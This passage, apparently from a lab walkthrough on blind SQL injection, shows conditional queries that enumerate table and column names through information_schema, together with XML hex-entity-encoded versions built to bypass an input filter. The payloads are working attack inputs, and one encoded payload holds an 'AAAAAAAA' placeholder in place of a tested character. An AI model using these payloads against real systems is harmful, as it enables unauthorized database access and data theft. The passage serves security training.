 ```
SELECT CASE WHEN (substring((SELECT table_name FROM information_schema.tables limit 1),1,5)='users') THEN 1 ELSE 2 END
```

```
(&#x53;&#x45;&#x4c;&#x45;&#x43;&#x54;&#x20;&#x43;&#x41;&#x53;&#x45;&#x20;&#x57;&#x48;&#x45;&#x4e;&#x20;&#x28;&#x73;&#x75;&#x62;&#x73;&#x74;&#x72;&#x69;&#x6e;&#x67;&#x28;&#x28;&#x53;&#x45;&#x4c;&#x45;&#x43;&#x54;&#x20;&#x74;&#x61;&#x62;&#x6c;&#x65;&#x5f;&#x6e;&#x61;&#x6d;&#x65;&#x20;&#x46;&#x52;&#x4f;&#x4d;&#x20;&#x69;&#x6e;&#x66;&#x6f;&#x72;&#x6d;&#x61;&#x74;&#x69;&#x6f;&#x6e;&#x5f;&#x73;&#x63;&#x68;&#x65;&#x6d;&#x61;&#x2e;&#x74;&#x61;&#x62;&#x6c;&#x65;&#x73;&#x20;&#x6c;&#x69;&#x6d;&#x69;&#x74;&#x20;&#x31;&#x29;&#x2c;&#x31;&#x2c;&#x35;&#x29;&#x3d;&#x27;&#x75;&#x73;&#x65;&#x72;&#x73;&#x27;&#x29;&#x20;&#x54;&#x48;&#x45;&#x4e;&#x20;&#x31;&#x20;&#x45;&#x4c;&#x53;&#x45;&#x20;&#x32;&#x20;&#x45;&#x4e;&#x44;)
```

It returns the same as sending the value 1 (the lab restarted so it is now 370, not 356) so the table "users" exists:



![img](images/SQL%20injection%20with%20filter%20bypass%20via%20XML%20encoding/9.png)

Then we will try to find the fits column name from “users” table with:

```
SELECT CASE WHEN (substring((SELECT column_name FROM information_schema.columns where table_name = 'users' limit 1),1,1)='a') THEN 1 ELSE 2 END
```

```
(&#x53;&#x45;&#x4c;&#x45;&#x43;&#x54;&#x20;&#x43;&#x41;&#x53;&#x45;&#x20;&#x57;&#x48;&#x45;&#x4e;&#x20;&#x28;&#x73;&#x75;&#x62;&#x73;&#x74;&#x72;&#x69;&#x6e;&#x67;&#x28;&#x28;&#x53;&#x45;&#x4c;&#x45;&#x43;&#x54;&#x20;&#x63;&#x6f;&#x6c;&#x75;&#x6d;&#x6e;&#x5f;&#x6e;&#x61;&#x6d;&#x65;&#x20;&#x46;&#x52;&#x4f;&#x4d;&#x20;&#x69;&#x6e;&#x66;&#x6f;&#x72;&#x6d;&#x61;&#x74;&#x69;&#x6f;&#x6e;&#x5f;&#x73;&#x63;&#x68;&#x65;&#x6d;&#x61;&#x2e;&#x63;&#x6f;&#x6c;&#x75;&#x6d;&#x6e;&#x73;&#x20;&#x77;&#x68;&#x65;&#x72;&#x65;&#x20;&#x74;&#x61;&#x62;&#x6c;&#x65;&#x5f;&#x6e;&#x61;&#x6d;&#x65;&#x20;&#x3d;&#x20;&#x27;&#x75;&#x73;&#x65;&#x72;&#x73;&#x27;&#x20;&#x6c;&#x69;&#x6d;&#x69;&#x74;&#x20;&#x31;&#x29;&#x2c;&#x31;&#x2c;&#x31;&#x29;&#x3d;&#x27;AAAAAAAA&#x27;&#x29;&#x20;&#x54;&#x48;&#x45;&#x4e;&#x20;&#x31;&#x20;&#x45;&#x4c;&#x53;&#x45;&#x20;&#x32;&#x20;&#x45;&#x4e;&#x44;)
```

We get the same response as sending 1 with the character “u”, so it starts with u and it probably starts with "user":



![img](images/SQL%20injection%20with%20filter%20bypass%20via%20XML%20encoding/10.png)
